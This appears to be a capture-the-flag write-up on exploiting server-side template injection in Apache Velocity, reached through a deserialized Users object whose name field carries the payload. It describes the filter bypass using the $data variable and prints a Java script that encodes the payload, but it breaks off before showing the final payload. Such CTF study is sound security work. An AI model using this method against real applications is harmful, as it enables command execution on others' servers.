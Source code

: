 ```java
```

The MainController class controls all the logic of the website. Basically, the website will work like this:

* A GET request at / that returns a simple "hey" string.
* A POST request at /, which receives a data parameter that undergoes base64 decoding, hex decoding, and deserialization into a Users object. -> Then use the getName method to get the username.
* The username will be put into a template and returned to the user


-> Can be SSTI. There are many articles about velocity SSTI but all of them need to use `#set` to create a variable then getClass and start using other java Classes from that.

* https://iwconnect.com/apache-velocity-server-side-template-injection/
* https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

But server has blocked the `#` character -> need a variable available to trigger the error. And right in MainController there is a variable `$data`

This is my the payload serialize, hex encode, base64 encode

```java
public class SerializationTest {
    public static void main(String[] args) {
        try {
            // Step 1: Create a Users object and set the name
            Users user = new Users();
            user.setName("payload");

            // Step 2: Serialize the Users object
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(user);
            oos.close();

            byte[] serializedBytes = baos.toByteArray();

            // Step 3: Convert serialized bytes to hex
            StringBuilder hexString = new StringBuilder();
            for (byte b : serializedBytes) {
                hexString.append(String.format("%02x", b));
            }

            // Step 4: Encode the hex string in base64
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.toString().getBytes());
            System.out.println("Base64 Encoded Serialized Object: " + base64Encoded);

            // Step 5: Decode the base64 string, convert back from hex, and deserialize
            String decodedHex = new String(Base64.getDecoder().decode(base64Encoded));
            byte[] decodedBytes = Encode.hexToBytes(decodedHex);
            ByteArrayInputStream bais = new ByteArrayInputStream(decodedBytes);
            ObjectInputStream ois = new SecureObjectInputStream(bais);

            // Step 6: Deserialize the object
            Users deserializedUser = (Users) ois.readObject();
            System.out.println("Deserialized User Name: " + deserializedUser.getName());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
Again, the Flag file is named random -> need to run `ls` command to know the file name. Use this payload
